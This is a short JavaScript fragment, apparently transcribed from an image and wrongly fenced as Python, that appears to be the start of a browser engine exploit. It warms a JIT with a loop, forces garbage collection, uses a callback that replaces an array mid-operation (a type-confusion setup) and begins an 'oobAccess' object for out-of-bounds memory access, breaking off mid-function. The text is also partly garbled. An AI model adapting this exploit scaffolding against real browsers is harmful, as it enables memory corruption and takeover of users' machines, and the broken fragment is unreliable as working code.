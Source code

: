 ```python

for (var i = 0; i < 0x10000; ++i) {

    target_function(i);

}





var g_array;

var tDerivedNCount = 17 * 87481 - 8;

var tDerivedNDepth = 19 * 19;



function cb(flag) {

    if (flag == true) {

        return;

    }

    g_array = new Array(0);

    g_array[0] = 0x1dbabe * 2;

    return 'c01db33f';

}



function gc() {

    for (var i = 0; i < 0x10000; ++i) {

        new String();

    }

}



function oobAccess() {

    var this_ = this;

    this.buffer = null;

    this.buffer_view = null;



    this.page_buffer = null;

    this.page_view = null;

```